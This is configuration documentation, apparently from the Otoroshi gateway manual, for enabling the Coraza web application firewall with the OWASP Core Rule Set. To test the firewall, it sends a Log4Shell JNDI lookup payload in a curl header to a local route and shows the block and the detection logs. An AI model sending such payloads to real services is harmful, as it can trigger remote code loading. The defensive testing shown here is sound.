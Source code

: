 # Instantiate a WAF with Coraza

<div style="display: flex; align-items: center; gap: .5rem;">
<span style="font-weight: bold">Route plugins:</span>
<a class="badge" href="https://maif.github.io/otoroshi/manual/built-in-plugins.html#otoroshi.wasm.proxywasm.NgCorazaWAF">Coraza WAF</a>
<a class="badge" href="https://maif.github.io/otoroshi/manual/built-in-plugins.
html#otoroshi.next.plugins.OverrideHost">Override Host Header</a>
</div>

Sometimes you may want to secure an app with a [Web Appplication Firewall (WAF)](https://en.wikipedia.org/wiki/Web_application_firewall) and apply the security rules from the [OWASP Core Rule Set](https://owasp.org/www-project-modsecurity-core-rule-set/). To allow that, we integrated [the Coraza WAF](https://coraza.io/) in Otoroshi through a plugin that uses the WASM version of Coraza.

### Before you start

@@include[initialize.md](../includes/initialize.md) { #initialize-otoroshi }

### Create a WAF configuration

first, go on [the features page of otoroshi](http://otoroshi.oto.tools:8080/bo/dashboard/features) and then click on the [Coraza WAF configs. item](http://otoroshi.oto.tools:8080/bo/dashboard/extensions/coraza-waf/coraza-configs). 

Now create a new configuration, give it a name and a description, ensure that you enabled the `Inspect req/res body` flag and save your configuration.

The corresponding admin api call is the following :

```sh
curl -X POST 'http://otoroshi-api.oto.tools:8080/apis/coraza-waf.extensions.otoroshi.io/v1/coraza-configs' \
  -u admin-api-apikey-id:admin-api-apikey-secret -H 'Content-Type: application/json' -d '
{
  "id": "coraza-waf-demo",
  "name": "My blocking WAF",
  "description": "An awesome WAF",
  "inspect_body": true,
  "config": {
    "directives_map": {
      "default": [
        "Include @recommended-conf",
        "Include @crs-setup-conf",
        "Include @owasp_crs/*.conf",
        "SecRuleEngine DetectionOnly"
      ]
    },
    "default_directives": "default",
    "per_authority_directives": {}
  }
}'
```

### Configure Coraza and the OWASP Core Rule Set

Now you can easily configure the coraza WAF in the `json` config. section. By default it should look something like :

```json
{
  "directives_map": {
    "default": [
      "Include @recommended-conf",
      "Include @crs-setup-conf",
      "Include @owasp_crs/*.conf",
      "SecRuleEngine DetectionOnly"
    ]
  },
  "default_directives": "default",
  "per_authority_directives": {}
}
```

You can find anything about it in [the documentation of Coraza](https://coraza.io/docs/tutorials/introduction/).

here we have the basic setup to apply the OWASP core rule set in detection mode only. 
So each time Coraza will find something weird in a request, it will only log it but let the request pass.
 We can enable blocking by setting `"SecRuleEngine On"`

we can also deny access to the `/admin` uri by adding the following directive

```json
"SecRule REQUEST_URI \"@streq /admin\" \"id:101,phase:1,t:lowercase,deny\""
```

You can also provide multiple profile of rules in the `directives_map` with different names and use the `per_authority_directives` object to map hostnames to a specific profile.

the corresponding admin api call is the following :

```sh
curl -X PUT 'http://otoroshi-api.oto.tools:8080/apis/coraza-waf.extensions.otoroshi.io/v1/coraza-configs/coraza-waf-demo' \
  -u admin-api-apikey-id:admin-api-apikey-secret -H 'Content-Type: application/json' -d '
{
  "id": "coraza-waf-demo",
  "name": "My blocking WAF",
  "description": "An awesome WAF",
  "inspect_body": true,
  "config": {
    "directives_map": {
      "default": [
        "Include @recommended-conf",
        "Include @crs-setup-conf",
        "Include @owasp_crs/*.conf",
        "SecRule REQUEST_URI \"@streq /admin\" \"id:101,phase:1,t:lowercase,deny\"",
        "SecRuleEngine On"
      ]
    },
    "default_directives": "default",
    "per_authority_directives": {}
  }
}'
```

### Add the WAF plugin on your route

Now you can create a new route that will use your WAF configuration. Let say we want a route on `http://wouf.oto.tools:8080` to goes to `https://www.otoroshi.io`. Now add the `Coraza WAF` plugin to your route and in the configuration select the configuration you created previously.

the corresponding admin api call is the following :

```sh
curl -X POST 'http://otoroshi-api.oto.tools:8080/api/routes' \
  -u admin-api-apikey-id:admin-api-apikey-secret \
  -H 'Content-Type: application/json' -d '
{
  "id": "route_demo",
  "name": "WAF route",
  "description": "A new route with a WAF enabled",
  "frontend": {
    "domains": [
      "wouf.oto.tools"
    ]
  },
  "backend": {
    "targets": [
      {
        "hostname": "www.otoroshi.io",
        "port": 443,
        "tls": true
      }
    ]
  },
  "plugins": [
    {
      "plugin": "cp:otoroshi.wasm.proxywasm.NgCorazaWAF",
      "config": {
        "ref": "coraza-waf-demo"
      },
      "plugin_index": {
        "validate_access": 0,
        "transform_request": 0,
        "transform_response": 0
      }
    },
    {
      "plugin": "cp:otoroshi.next.plugins.OverrideHost",
      "plugin_index": {
        "transform_request": 1
      }
    }
  ]
}'
```

### Try to use an exploit ;)

let try to trigger Coraza with a Log4Shell crafted request:

```sh
curl 'http://wouf.oto.tools:9999' -H 'foo: ${jndi:rmi://foo/bar}' --include

HTTP/1.1 403 Forbidden
Date: Thu, 25 May 2023 09:47:04 GMT
Content-Type: text/plain
Content-Length: 0

```

or access to `/admin`

```sh
curl 'http://wouf.oto.tools:9999/admin' --include

HTTP/1.1 403 Forbidden
Date: Thu, 25 May 2023 09:47:04 GMT
Content-Type: text/plain
Content-Length: 0

```

if you look at otoroshi logs you will find something like :

```log
[error] otoroshi-proxy-wasm - [client "127.0.0.1"] Coraza: Warning. Potential Remote Command Execution: Log4j / Log4shell 
  [file "@owasp_crs/REQUEST-944-APPLICATION-ATTACK-JAVA.conf"] [line "10608"] [id "944150"] [rev ""] 
  [msg "Potential Remote Command Execution: Log4j / Log4shell"] [data ""] [severity "critical"] 
  [ver "OWASP_CRS/4.0.0-rc1"] [maturity "0"] [accuracy "0"] [tag "application-multi"] 
  [tag "language-java"] [tag "platform-multi"] [tag "attack-rce"] [tag "OWASP_CRS"] 
  [tag "capec/1000/152/137/6"] [tag "PCI/6.5.2"] [tag "paranoia-level/1"] [hostname "wwwwouf.oto.tools"] 
  [uri "/"] [unique_id "uTYakrlgMBydVGLodbz"]
[error] otoroshi-proxy-wasm - [client "127.0.0.1"] Coraza: Warning. Inbound Anomaly Score Exceeded (Total Score: 5) 
  [file "@owasp_crs/REQUEST-949-BLOCKING-EVALUATION.conf"] [line "11029"] [id "949110"] [rev ""] 
  [msg "Inbound Anomaly Score Exceeded (Total Score: 5)"] 
  [data ""] [severity "emergency"] [ver "OWASP_CRS/4.0.0-rc1"] [maturity "0"] [accuracy "0"] 
  [tag "anomaly-evaluation"] [hostname "wwwwouf.oto.tools"] [uri "/"] [unique_id "uTYakrlgMBydVGLodbz"]
[info] otoroshi-proxy-wasm - Transaction interrupted tx_id="uTYakrlgMBydVGLodbz" context_id=3 action="deny" phase="http_response_headers"
...
[error] otoroshi-proxy-wasm - [client "127.0.0.1"] Coraza: Warning.  [file ""] [line "12914"] 
  [id "101"] [rev ""] [msg ""] [data ""] [severity "emergency"] [ver ""] [maturity "0"] [accuracy "0"] 
  [hostname "wwwwouf.oto.tools"] [uri "/admin"] [unique_id "mqXZeMdzRaVAqIiqvHf"]
[info] otoroshi-proxy-wasm - Transaction interrupted tx_id="mqXZeMdzRaVAqIiqvHf" context_id=2 action="deny" phase="http_request_headers"
```

### Generated events

each time Coraza will generate log about vunerability detection, an event will be generated in otoroshi and exporter through the usual data exporter way. The event will look like :

```json
{
  "@id" : "86b647450-3cc7-42a9-aaec-828d261a8c74",
  "@timestamp" : 1684938211157,
  "@type" : "CorazaTrailEvent",
  "@product" : "otoroshi",
  "@serviceId" : "--",
  "@service" : "--",
  "@env" : "prod",
  "level" : "ERROR",
  "msg" : "Coraza: Warning. Potential Remote Command Execution: Log4j / Log4shell",
  "fields" : {
    "hostname" : "wouf.oto.tools",
    "maturity" : "0",
    "line" : "10608",
    "unique_id" : "oNbisKlXWaCdXntaUpq",
    "tag" : "paranoia-level/1",
    "data" : "",
    "accuracy" : "0",
    "uri" : "/",
    "rev" : "",
    "id" : "944150",
    "client" : "127.0.0.1",
    "ver" : "OWASP_CRS/4.0.0-rc1",
    "file" : "@owasp_crs/REQUEST-944-APPLICATION-ATTACK-JAVA.conf",
    "msg" : "Potential Remote Command Execution: Log4j / Log4shell",
    "severity" : "critical"
  },
  "raw" : "[client \"127.0.0.1\"] Coraza: Warning. Potential Remote Command Execution: Log4j / Log4shell [file \"@owasp_crs/REQUEST-944-APPLICATION-ATTACK-JAVA.conf\"] [line \"10608\"] [id \"944150\"] [rev \"\"] [msg \"Potential Remote Command Execution: Log4j / Log4shell\"] [data \"\"] [severity \"critical\"] [ver \"OWASP_CRS/4.0.0-rc1\"] [maturity \"0\"] [accuracy \"0\"] [tag \"application-multi\"] [tag \"language-java\"] [tag \"platform-multi\"] [tag \"attack-rce\"] [tag \"OWASP_CRS\"] [tag \"capec/1000/152/137/6\"] [tag \"PCI/6.5.2\"] [tag \"paranoia-level/1\"] [hostname \"wouf.oto.tools\"] [uri \"/\"] [unique_id \"oNbisKlXWaCdXntaUpq\"]\n",
}
```